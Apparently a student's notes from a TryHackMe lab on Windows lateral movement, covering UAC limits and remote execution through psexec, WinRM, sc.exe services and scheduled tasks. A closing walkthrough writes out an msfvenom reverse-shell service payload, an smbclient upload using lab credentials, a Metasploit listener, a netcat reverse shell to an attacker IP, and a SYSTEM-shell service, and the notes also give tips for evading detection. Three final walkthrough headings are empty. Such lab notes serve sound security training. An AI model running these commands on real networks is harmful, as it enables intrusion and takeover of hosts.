

# Lateral Movement and Pivoting

### Moving Through the Network

**What is Lateral Movement?**

Lateral movement is a group of techniques used by attackers to move around a network.
Moving is essential for many reasons, including:

- Reaching our goals as attackers
- Bypassing network restrictions in place
- Establishing additional points of entry to the network
- Creating confusion and avoid detection.


Usually, we will repeat this cycle several times before reaching our final goal on the network. If our 
first foothold is a machine with very little access to other network resources, we might need to move 
laterally to other hosts that have more privileges on the network.

**The Attacker's Perspective**

The simplest way to move laterally is to use standard administrative protocols like WinRM, RDP, VNC or 
SSH to connect to other machines around the network. This approach can be used to emulate regular 
user behavour. Make sure the connections don't appear suspicious (e.g.why is a local admin on a 
Marketing machine connecting to a Dev machine?)

**Administrators and UAC**

Two types of administrator:

- Local accounts part of the local Administrators group
- Domain accounts part of the local Administrators group

There are restrictions imposed by User Account Control (UAC) over local administrators (except for the 
default Administrator account). By default, local administrators won't be able to remotely connect to a 
machine and perform administrative tasks unless using an interactive session through RDP. 

Windows will deny any administrative task requested via RPC, SMB or WinRM since such administrators 
will be logged in with a filtered medium integrity token, preventing the account from doing privileged 
actions.

The only local account that will get full privileges is the default Administrator account.

Domain accounts with local administration privileges won't be subject to the same treatment and will be 
logged in with full administrative privileges.

This security feature can be disabled if desired, and sometimes you will find no difference between 
local and domain accounts in the administrator's group.

It's essential to keep in mind that should some of the lateral movement techniques fail, it might be 
due to using a non-default local administrator where UAC is enforced. Info [here](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction)

### Spawning Processes Remotely

**Psexec**

Ports: 445/TCP (SMB)
Required Group Membership: Administrators

The way psexec works:

- Connect to Admin$ share and upload a service binary. Psexec uses psexesvc.exe as the name.
- Connect to the service control manager to create and run a service named PSEXESVC and associate the 
service binary with `C:\Windows\psexesvc.exe`.
- Create some named pipes to handle stdin/stdout/stderr.

To run psexec, we supply the required administrator credentials for the remote host and the command we 
want to run:

`psexec64.exe \\<TARGET> -u Administrator -p Password -i cmd.exe`


**Remote Process Creation using WinRM**

Ports:

- 5985/TCP (WinRM HTTP)
- 5986/TCP (WinRM HTTPS)

Required Group Memberships: Remote Management Users

Windows Remote Management (WinRM) is a web-based protocol used to send Powershell commands to Windows 
hosts remotely. Most Windows Server installations will have WinRM enabled by default, making it an 
attractive attack vector.

Connect to a remote Powershell session from the command line:

`winrs.exe -u:<USERNAME> -p:<PASSWORD> -r:<TARGET-IP> cmd`

We can achieve the same from Powershell, but to pass different credentials we will need to create a 
PSCredential object:

```
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Once we have our PSCredential object, we can create an interactive session using the Enter-PSSession 
cmdlet:

`Enter-PSSession -Computername TARGET -Credential $credential`

Powershell also includes the Invoke-Command cmdlet, which runs ScriptBlocks remotely via WinRM. 
Credentials must be passed through a PSCredential object as well:

`Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}`


**Remotely Creating Services using sc**

Ports:

- 135/TCP, 49152-65535/TCP (DCE/RPC)
- 445/TCP (RPC over SMB Named Pipes)
- 139/TCP (RPC over SMB Named Pipes)

Required Group Memberships: Administrators

Windows services can also be leveraged to run arbitrary commands since they execute a command when 
started. While a service executable is technically different from a regular application, if we 
configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with sc.exe, a standard tool available in Windows. When using 
sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC 
in several ways:

1. A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint 
Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request 
information on the SVCCTL service program. The EPM will then respond with the IP and port to connect 
to SVCCTL, which is usually a dynamic port in the range of 49152-65535.



2. If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 
445 (SMB) or 139 (SMB over NetBIOS)


We can create and start a service named "THMservice" using the following commands:

```
sc.exe \\<TARGET> create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\<TARGET> start THMservice
```

The `net user` command will be executed when the service is started, creating a new local user on the 
system. Since the operating system is in charge of starting the service, you won't be able to look at 
the command output.

To stop and delete the service, we can then execute the following commands:

```
sc.exe \\<TARGET> stop THMservice
sc.exe \\<TARGET> delete THMservice
```

**Creating Scheduled Tasks Remotely**

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with 
schtasks, available in any Windows installation.

To create a task we can use the following commands:

```
schtasks /s TARGET /RU "SYSTEM" /create /tn "TaskNameHere" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00

schtasks /s TARGET /run /TN "TaskNameHere" 
```

We set the schedule type (/sc) to ONCE, which means the task is intended to be run only once at the 
specified time and date. Since we will be running the task manually, the starting date (/sd) and 
starting time (/st) won't matter much anyway.

Since the system will run the scheduled task, the command's output won't be available to us, making 
this a blind attack.

Finally, to delete the scheduled task, we can use the following command and clean up after ourselves:

`schtasks /S TARGET /TN "TaskNameHere" /DELETE /F`

**Let's Get to Work!**

Exploit with sc.exe:

1. ssh into jump server THMJMP2

2. create msfvenom service exe payload
`msfvenom -p windows/shell/reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f exe-service -o service-shell.exe`

3. use smbclient with compromised credentials (t1_leonard.summers) to upload payload to target THMIIS
`smbclient -c 'put service-shell.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$'`

4. start a listener with msfconsole
`msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST 10.10.0.1; set LPORT 4444;exploit"`

5. get a shell on the target with netcat (connected to THMJMP2 with ssh, shell will spawn but we won't 
be able to access it so netcat is used instead) and using `runas.exe` to execute as t1_leonard.summers
`runas.exe /netonly /user:ZA.TRYHACKME.COM\leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.10.0.1 4443"`

6. create service with uploaded payload as the service bin
`sc.exe \\thmiis.za.tryhackme.com create RemoteShellService binPath= "%windir%\service-shell.exe" start= auto`

7. start the service to gain a SYSTEM shell on THMIIS
`sc.exe \\thmiis.za.tryhackme.com start RemoteShellService`

Exploit with WinRM:


Exploit with Psexec:


Exploit with Scheduled tasks:

